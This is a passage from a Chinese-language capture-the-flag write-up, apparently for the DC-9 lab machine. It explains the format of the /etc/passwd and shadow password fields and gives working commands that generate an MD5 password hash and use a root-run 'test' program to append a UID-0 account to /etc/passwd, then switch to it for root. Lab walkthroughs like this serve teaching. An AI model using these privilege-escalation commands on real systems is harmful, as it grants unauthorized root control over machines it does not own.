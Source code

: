 怎么利用这个脚本完成最后一步的提权呢？

注意到test执行的时候是有root权限的，

而这个程序又刚好可以让我们任意写

所有我们可以利用这个脚本往/etc/passwd里写一个管理员用户即可

先说说shadow文件中第二列的格式，它是加密后的密码，它有些玄机，不同的特殊字符表示特殊的意义：

> 1. 该列留空，即"::"，表示该用户没有密码。
> 2. 该列为"!"，即":!:"，表示该用户被锁，被锁将无法登陆，但是可能其他的登录方式是不受限制的，如ssh公钥认证的方式，su的方式。
> 3. 该列为""，即"::"，也表示该用户被锁，和"!“效果是一样的。
> 4. 该列以”!“或”!!“开头，则也表示该用户被锁。
> 5. 该列为”!!"，即":!!:"，表示该用户从来没设置过密码。
> 6. 如果格式为"\$id\$salt\$hashed"，则表示该用户密码正常。其中​\$id\$的id表示密码的加密算法，\$1\$表示使用MD5算法，\$2a\$表示使用Blowfish算法，"\$2y\$“是另一算法长度的Blowfish,”\$5\$“表示SHA-256算法，而”\$6\$"表示SHA-512算法，
>    目前基本上都使用sha-512算法的，但无论是md5还是sha-256都仍然支持。\$salt\$是加密时使用的salt，hashed才是真正的密码部分。

如下构造用户密码段

```shell
fredf@dc-9:/opt/devstuff/dist/test$ openssl passwd -1 -salt eki 123456
$1$eki$6AfXWsJC4WDuk9MwHsLDY.
```

```shell
eki:$1$eki$6AfXWsJC4WDuk9MwHsLDY.:0:0::/root:/bin/bash
```

/tmp目录可写 我们就写到tmp里好了

Exp：

```shell
echo 'eki:$1$eki$6AfXWsJC4WDuk9MwHsLDY.:0:0::/root:/bin/bash' >> /tmp/eki
sudo test /tmp/eki /etc/passwd
su eki
123456
```

然后就拿到theflag.txt啦！

### 参考资料

LFI fuzz：https://github.com/fuzzdb-project/fuzzdb/tree/master/attack/lfi

/etc/passwd的结构：https://blog.csdn.net/dearsq/article/details/52586320 

/etc/passwd 密码段的生成方式：https://blog.csdn.net/jiajiren11/article/details/80376371

